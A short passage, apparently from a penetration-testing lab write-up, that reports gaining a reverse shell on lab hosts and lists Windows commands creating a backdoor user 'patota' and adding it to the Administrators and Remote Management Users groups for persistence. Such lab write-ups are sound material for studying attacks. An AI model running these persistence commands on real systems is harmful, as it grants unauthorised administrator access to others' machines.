 This created a reverse shell from the **10.200.105.150** to **10.200.105.200**:

![Command executed in the reverse shell](image-6.png)

We know that this server is running a Windows OS. We created a foothold on this server, by adding a user:

```
# add user
net user patota 123456 /add

# add this new user to the admin group
net localgroup Administrators patota /add

# add this user to the "Remote Management Users" group
net localgroup "Remote Management Users" patota /add
```
